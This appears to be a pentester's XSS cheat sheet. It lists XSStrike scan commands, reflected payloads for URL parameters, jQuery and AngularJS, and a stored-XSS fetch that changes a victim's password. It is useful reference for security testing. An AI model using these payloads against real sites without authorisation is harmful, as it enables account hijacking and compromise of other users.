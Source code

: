 ```yaml
---
title: Cross-Site Scripting (XSS)
desc: 
tags: [Burp Suite, Cross, Site, Web, XSS]
alts: [Cookie-Hijacking]
render_with_liquid: true
---
```


{% raw %}

## 1. Automation

- **[XSStrike](https://github.com/s0md3v/XSStrike){:target="_blank"}**

    XSS scanner.

    ```sh
    # GET request
    python xsstrike.py -u http://vulnerable.com/?param=test

    # POST reqeust
    python xsstrike.py -u http://vulnerable.com/post --data "username=test&email=test&comment=test"

    # data as JSON
    python xsstrike.py -u http://vulnerable.com/comment --data '{"comment": "test"}' --json
    ```

<br />


## 2. Manual

1. **URL Parameters**

    1. **Common Payloads**

        ```
        /?q=<script>alert(1)</script>
        /?q="><script>alert(1)</script>
        /?q=<script>alert(1)</script>
        /?q="><script>alert(1)</script>
        /?q='></script><script>alert(1)</script>

        /?q=" src=1 onerror=alert(1)>
        /?q=<><img src=1 onerror=alert(1)>
        /?q="><img src=1 onerror=alert(1)>
        /?q="></span><img src=1 onerror=alert(1)>
        /?q="><svg onload=alert(1)>

        /?q=javascript:alert(1)
        /?q=\"-alert(1)//

        /?q=%3Cscript%3Ealert%281%29%3C%2Fscript%3E

        /?q=<a onmouseover=alert(1)>click</a>
        /?q=" onmouseleave='alert(1)'">

        /?q=<img src="jav ascript:alert(1)">
        /?q=<img src="jav&#x09;ascript:alert(1)">
        /?q=<img src="jav&#x0A;ascript:alert(1)">


        /?q=&subparam=--><script>alert(1)</script>
        /index.php#value='><script>alert(1)</script>
        ```

    2. **JQuery**

        ```
        https://vulnerable.com/#<img src=1 onerror=alert(1)>
        <iframe src="https://vulnerable.com/#" onload="this.src+='<img src=1 onerror=alert(1)>'">
        ```

    3. **AngularJS**

        If you find **"<html ng-app>"** or **"<div ng-app>"** in the HTML source code, you may be able to abuse it by XSS.

        ```
        https://vulnerable.com/?search={{$on.constructor('alert(1)')()}}
        ```

2. **POST Parameters**


    POST params are almost the same as URL params, so try the common payloads of section 1.  
    Ant the following ones.

    ```
    title=<a href="http://localhost/newUser?username=test&password=test">test</a>&comment=hello
    ```

    1. **Change User Profiles**

        If the website allows users to change passwords from the URL params...

        ```
        /profile?new_password=password
        ```

        Submit the payload to user input forms such as messages, comments, forums...

        ```
        <script>fetch('/profile?new_password=password');</script>
        ```

{% endraw %}